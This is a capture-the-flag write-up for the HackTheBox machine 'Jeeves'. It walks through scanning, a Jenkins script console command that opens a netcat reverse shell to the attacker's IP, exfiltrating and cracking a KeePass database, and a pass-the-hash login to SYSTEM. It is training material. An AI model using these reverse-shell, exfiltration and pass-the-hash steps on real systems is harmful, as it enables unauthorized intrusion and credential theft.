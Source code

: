 ```yaml
---
title: "Jeeves"
date: 2025-06-13
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Jeeves

![](../assets/Pasted%20image%2020250613001628.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.63
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-13 00:16 CEST
Nmap scan report for 10.10.10.63
Host is up (0.041s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows 10 1607 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows 11 (86%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Vista or Windows 7 (86%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m59s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-06-13T03:17:32
|_  start_date: 2025-06-13T03:16:20
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   40.72 ms 10.10.14.1
2   40.82 ms 10.10.10.63

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.63 seconds
```

Website is about a web searcher

![](../assets/Pasted%20image%2020250613002040.png)

Upon searching, it shows an error image.

![](../assets/Pasted%20image%2020250613002156.png)

Port `50000` shows an error and the Jetty version.

![](../assets/Pasted%20image%2020250613003426.png)

Using `feroxbuster`, we find `/askjeeves`.

![](../assets/Pasted%20image%2020250613003522.png)

`/askjeeves` is a Jenkins instance `2.87`.

![](../assets/Pasted%20image%2020250613003625.png)

## Initial Access

We can go to the script console.

![](../assets/Pasted%20image%2020250613010454.png)

The easiest way is to put a base64-encoded PowerShell reverse shell.

Or we can also get `nc.exe` from an SMB share and connect back to a port.

```shell
println "\\\\10.10.14.17\\kali\\nc.exe -e cmd 10.10.14.17 443".execute().text
```

Either way,

```shell
$ sudo rlwrap nc -lnvp 80
[sudo] password for kali: 
listening on [any] 80 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.63] 49678
whoami
jeeves\kohsuke
```

Get the flag:

```shell
PS C:\users\kohsuke\desktop> type user.txt
e3232272596fb47950d59c4cf1e7066a
```

## Privilege Escalation

There is a KeePass file inside `documents`.

```shell
PS C:\users\kohsuke\documents> ls


    Directory: C:\users\kohsuke\documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx  
```

Start an `impacket-smbserver` and copy the file.

```shell
PS C:\users\kohsuke\documents> cp CEH.kdbx \\10.10.14.17\kali
```

With `keepass2john`, get the hash and then with `john` crack it.

```shell
$ keepass2john CEH.kdbx > hash             

$ cat hash      
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

![](../assets/Pasted%20image%2020250613011514.png)

Open the file with `keepassxc` or `kpcli`.

![](../assets/Pasted%20image%2020250613011759.png)

Get the NTLM hash of backup stuff and pass the hash to enter.

```shell
$ impacket-psexec administrator@10.10.10.63 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file eXJgnHqs.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service BUPi on 10.10.10.63.....
[*] Starting service BUPi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## Post Exploitation

Get the flag:

```shell
c:\Users\Administrator\Desktop> type hm.txt
The flag is elsewhere.  Look deeper.
```

We need to `dir` with alternative data streams using `/R`.

```shell
C:\Users\Administrator\Desktop> dir /R
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,640,015,360 bytes free

C:\Users\Administrator\Desktop> more < hm.txt:root.txt
afbc5bd4b615a60648cec41c6ac92530
```
